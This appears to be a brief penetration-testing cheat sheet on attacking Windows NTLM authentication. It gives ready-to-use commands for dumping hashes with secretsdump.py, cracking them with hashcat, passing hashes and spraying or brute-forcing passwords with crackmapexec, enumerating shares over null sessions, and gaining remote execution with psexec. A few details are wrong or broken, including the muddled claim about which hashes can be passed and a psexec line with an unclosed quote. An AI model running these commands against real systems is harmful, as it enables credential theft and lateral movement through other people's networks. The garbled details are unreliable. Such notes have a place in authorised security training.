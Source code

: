 # NTLM Hashes

## Dumping Hashes with secretsdump.py

https://github.com/SecureAuthCorp/impacket

```
secretsdump.py DOMAIN/USERNAME:PASSWORD@IP
```

## Cracking NTLM Hashes with Hashcat

On Windows

```
hashcat64.exe -m 1000 hashfile.txt rockyou.txt -O
```

## Pass the hash

You can only pass NTLM V1 hashes

```
crackmapexec smb IP -u "USERNAME" -H HASH --local-auth

e.g.
crackmapexec smb 192.168.64.0/24 -u fcastle -d KOMBINAT.local -p 'Password1' --local-auth
```

## CrackMapExec

Brute Force

```
crackmapexec smb 10.10.10.184 -u USER_LIST -p pass.txt (--continue-on-success)
```

List shares

```
crackmapexec smb 10.10.10.184 -u USER -p PASSWORD --shares
```

Null authentication

```
crackmapexec smb 10.10.10.184 --pass-pol -u '' -p ''
```

Test credentials on local network (password spraying)

```
crackmapexec 192.168.57.0/24 -u USERNAME -d DOMAIN.local -p PASSWORD
```

## PSEXEC

PSEXEC supports hashes instead of passwords - Note: Entire hash needed LMN:NTLM

```
psexec.py "username:@192.168.57.141 -hashes lmn:ntlm
```